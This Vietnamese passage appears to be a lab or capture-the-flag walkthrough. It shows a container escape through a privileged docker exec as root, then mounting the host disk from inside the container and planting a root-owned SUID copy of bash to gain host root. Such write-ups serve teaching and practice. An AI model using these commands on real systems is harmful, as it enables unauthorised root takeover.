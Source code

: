 Tôi tiến hành chạy linpeas để xem có thông tin gì? thì có được id của **Container** đang chạy

![[Pasted image 20241104151732.png]]

```
e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81
```

Kết nối tới container đang chạy

```
sudo /snap/bin/docker exec -it --privileged --user 0  e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 bash
```

![[Pasted image 20241104155915.png]]

Chúng ta đang quyền trong nhóm group trong container. tôi cần khai thác để có được quyền root bên ngoài.

Sau một hồi tìm kiếm tôi thấy ổ lữu trữ container

![[Pasted image 20241104161942.png]]
![[Pasted image 20241104162007.png]]

Tôi so sánh với ổ lưu trữ ở bên ngoài

![[Pasted image 20241104164154.png]]

Tôi chắc rằng, người dùng root đã mount ổ /dev/xcda1 từ bên ngoài vào container. nên khi ta tiến hành chỉnh sửa ở trong container trên ổ này thì bên ngoài cũng sẽ bị thay đổi theo.

Tôi sẽ tiến hành mout ổ này sang một thư mục mới trong người dùng grafana. 

```
mount /dev/xvda1 ./mout
```

![[Pasted image 20241104162206.png]]

Tôi sẽ copy `/bin/bash` sang người dùng boris vì tôi đang chạy dưới quền root.

```
cp ../bin/bash boris/bash
```

![[Pasted image 20241104164442.png]]

Tiếp theo tôi sẽ thực hiện đặt suid cho file này

```
chown root:root bash
chmod 4777 bash
```

![[Pasted image 20241104164849.png]]

Thoát ra bên ngoài và tiến hành lên quyền root

![[Pasted image 20241104164947.png]]

